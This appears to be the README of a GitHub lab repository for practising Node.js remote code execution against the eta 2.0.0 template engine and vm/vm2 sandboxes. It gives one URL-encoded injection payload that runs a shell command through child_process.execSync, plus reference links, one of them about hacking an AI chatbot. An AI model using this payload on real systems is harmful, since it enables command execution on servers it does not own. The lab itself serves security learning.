 # Node_RCE_lab

## Requirements
-  Linux/Windows
-  Node
-  Npm
-  Express
-  Vm
-  Vm2
-  eta@2.0.0

## payload

- ";process.mainModule.require(%27child_process%27).execSync(%27whoami%27)//

  
## Reference
https://rayhan0x01.github.io/ctf/2023/04/01/finding-rce-in-eta-cve-2022-25967.html

https://security.snyk.io/vuln/SNYK-JS-ETA-2936803

https://core-research-team.github.io/2023-03-29/Nodejs-VM-Sandbox-Breakout

https://www.breachproof.net/blog/lethal-injection-how-we-hacked-microsoft-ai-chat-bot


